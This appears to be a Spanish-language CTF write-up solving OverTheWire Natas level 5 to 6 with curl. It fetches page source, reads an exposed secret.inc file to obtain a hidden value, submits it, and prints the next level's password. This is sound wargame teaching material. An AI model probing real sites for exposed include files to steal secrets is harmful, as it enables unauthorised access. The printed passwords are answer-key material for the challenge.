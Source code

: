```yaml
---
title: OverTheWire - Natas 5 -> 6 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 5 -> 6 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas6
Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
URL:      http://natas6.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas5-6-1.png)

Notamos que se está pidiendo un **secret** el cual debemos ingresar para obtener la contraseña.

![](/images/images-otw-natas/natas5-6-2.png)

Un poco más abajo vemos un link que nos muestra el código fuente del formulario que vimos arriba.

![](/images/images-otw-natas/natas5-6-3.png)

Si accedemos a ese archivo obtenemos lo siguiente:

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/index-source.html 
```

![](/images/images-otw-natas/natas5-6-4.png)

Para solucionar esto haremos uso de la herramiento `html2text` que se puede instalar con `sudo apt install html2text`.

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/index-source.html | html2text 
```

![](/images/images-otw-natas/natas5-6-7.png)

Observamos la lógica del formulario ubicado en la página principal que nos pedía un secreto.

![](/images/images-otw-natas/natas5-6-5.png)

Notamos que está escrito en PHP, y que hace una comparación de nuestro input contra `$secret`. Hay un archivo llamado `secret.inc` donde debería estar el valor de la variable `$secret`.

![](/images/images-otw-natas/natas5-6-6.png)

Si ingresamos al archivo veremos el valor de `$secret`.

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
```

![](/images/images-otw-natas/natas5-6-8.png)


Volvemos a la página principal, enviamos nuestros datos con el parámetro `-d` con el valor `secret=FOEIUWGHFEEUHOFUOIU` y submit que puede ser lo que sea.

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/ -d 'secret=FOEIUWGHFEEUHOFUOIU&submit=holaaaaaaa'
```

![](/images/images-otw-natas/natas5-6-9.png)

# Contraseña
---

`7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`

---

## [Anterior](/level-4-5)
## [Siguiente](/level-6-7)